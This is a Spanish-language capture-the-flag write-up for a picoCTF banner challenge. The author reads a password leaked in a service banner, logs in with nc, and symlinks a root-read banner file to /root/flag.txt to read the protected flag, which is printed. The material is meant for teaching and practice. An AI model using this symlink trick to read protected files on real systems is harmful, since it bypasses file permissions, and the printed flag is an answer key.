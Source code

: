 
## Descripción

Can you abuse the banner? The server has been leaking some crucial information on `tethys.picoctf.net 55777`. Use the leaked information to get to the server. To connect to the running application use `nc tethys.picoctf.net 52272`. From the above information abuse the machine and find the flag in the /root directory.

## Solución

Ingreso al servidor usando el comando nc: 
``` bash
──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 55777
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
Me doy cuenta enseguida que se nos da ahí mismo una contraseña, la información que decribe que se filtra, por lo que la copeo.  
Ingreso al siguiente igual con el comando nc, me pide una contraseña, pruebo la que copié y es correcta. Respondo un par de preguntas que devuelve el servidor hasta que me deja entrar:
```bash
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 53404
*************************************
**************WELCOME****************
*************************************
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```
Hago un ls y encuentro una pista y el archivo del banner, pista clave. Intento moverme al directorio root y me es posible, donde de hecho encuentro el script.py y la bandera a la cual no puedo acceder por los permisos.
Al analizar el script me encuentro con que leerá el archivo banner, por lo que renombro el banner a banner_backup y también lo hago con la bandera a banner. 
Aquí entra una de las pistas clave del reto. 
```bash
mv banner banner_backup  
ln -s /root/flag.txt banner
```
Ahora mi banner ya no se llama así y lo reemplaza la bandera, que al momento ingresar de nuevo con nc en otra terminal se ejecuta el script e imprime el banner que ahora es la bandera y no el que renombramos, explotamos la vulnerabilidad para leerla sin los permisos.
`picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}`

## Notas adicionales

- Un banner en informática es el primer mensaje que un servidor te envía cuando te conectas. A menudo revela que software y versión está usando.


## Referencias

https://es.wikipedia.org/wiki/Enlace_simb%C3%B3lico